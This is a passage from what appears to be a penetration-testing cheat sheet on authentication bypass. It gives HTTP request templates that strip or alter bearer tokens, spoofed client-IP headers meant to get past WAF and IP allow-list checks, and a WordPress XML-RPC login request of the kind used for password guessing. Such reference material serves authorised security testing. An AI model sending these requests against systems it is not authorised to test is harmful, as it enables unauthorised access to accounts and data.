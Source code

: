 ```
# Original authenticated API call
GET /api/v1/users HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

# Try without authentication header
GET /api/v1/users HTTP/1.1

# Try with empty token
GET /api/v1/users HTTP/1.1
Authorization: Bearer 

# Try with modified token
GET /api/v1/users HTTP/1.1
Authorization: BEARER eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

### 5. Bypassing WAF and IP-Based Authentication

```
# Modified headers to bypass IP restrictions
X-Forwarded-For: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
```

## Framework-Specific Bypasses

### WordPress

```
# Direct access to wp-admin
https://example.com/wp-admin/

# XML-RPC authentication bypass
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>password</value></param>
</params>
</methodCall>
```

